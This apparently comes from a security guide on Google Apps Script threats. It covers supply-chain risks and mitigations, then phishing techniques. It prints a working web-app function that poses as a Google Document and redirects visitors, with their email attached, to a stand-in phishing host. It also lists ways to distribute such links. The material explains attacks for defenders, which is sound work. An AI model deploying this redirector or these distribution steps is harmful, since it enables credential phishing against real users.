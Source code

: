 Be aware of supply chain risks involving third-party scripts:

**Risk Scenarios:**
1. Legitimate third-party add-ons compromised by attackers
2. Development tools or libraries containing malicious code
3. Trusted scripts modified by insider threats
4. Abandoned scripts acquired and weaponized by threat actors

**Mitigation Strategies:**
- Implement vetting process for third-party scripts and add-ons
- Create inventory of approved scripts and developers
- Conduct periodic security reviews of third-party components
- Monitor for unusual changes to previously vetted scripts

## Apps Script Phishing Techniques

### Malicious Redirect Web Apps

Attackers leverage Google Apps Script's ability to deploy web applications for phishing:

```javascript
// Example of a malicious Apps Script web app that redirects to a phishing site

// Standard Apps Script doGet function
function doGet(e) {
  // Extract parameters from the request
  var params = e.parameter;
  var email = params.email || '';
  
  // Create HTML with redirect to phishing site
  var html = HtmlService.createHtmlOutput(`
    <!DOCTYPE html>
    <html>
      <head>
        <title>Google Document</title>
        <script>
          // Redirect to phishing site with extracted parameters
          window.location.href = "https://malicious-phishing-site.com/google-login?email=${email}";
        </script>
      </head>
      <body>
        <p>Loading document, please wait...</p>
      </body>
    </html>
  `);
  
  // Return the HTML content
  return html;
}
```

**Distribution Techniques:**
1. Deploy as web app with "Anyone, even anonymous" access
2. Send link via email, chat, or calendar invites
3. Disguise link with URL shortener or in messages
4. Include user's email as parameter for personalized phishing

